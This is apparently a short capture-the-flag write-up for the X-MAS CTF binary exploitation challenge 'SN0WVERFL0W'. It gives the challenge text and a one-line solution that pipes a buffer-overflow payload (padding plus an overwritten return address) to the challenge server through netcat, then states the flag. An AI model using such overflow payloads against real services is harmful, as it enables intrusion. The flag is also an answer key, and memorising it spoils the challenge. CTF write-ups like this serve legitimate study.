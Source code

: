 [../](../../)

# SN0WVERFL0W

## Binary Exploitation

> Snow, snow, snow... there is snow everywhere! I'm feeling a little bit overwhelmed... or would I say overflowed?
>
> nc challs.xmas.htsp.ro 12006
>
> [chall](chall)

## Solution

	$ python2 -c "print('A'*18+'\x56\x11\x40\x00\x00\x00\x00\x00')" | nc challs.xmas.htsp.ro 12006

flag: `X-MAS{700_much_5n0000w}`